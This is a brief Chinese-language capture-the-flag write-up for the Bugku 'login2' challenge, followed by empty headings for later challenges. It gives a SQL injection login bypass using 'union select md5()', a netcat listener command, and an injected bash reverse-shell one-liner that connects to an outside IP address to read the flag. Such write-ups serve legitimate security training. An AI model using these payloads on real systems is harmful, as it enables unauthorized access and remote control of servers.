# login2
[一个大佬的思路](http://www.bugku.com/thread-80-1-1.html)</br>
union select md5()的姿势，尝试下
```bash
username=a' union select 1,md5(1)-- -&password=1
```
登入成功。出现进程监控系统

过滤了一些东西，导致不能回显，考虑端口反弹</br>
在外网主机上监听
```bash
nc -l -p 8080 -vvv
```
在网站上输入
```bash
|bash -i >& /dev/tcp/23.106.128.52/8080 0>&1
```
之后就可以查看文件，得到flag的文件内容了
# login3
# login4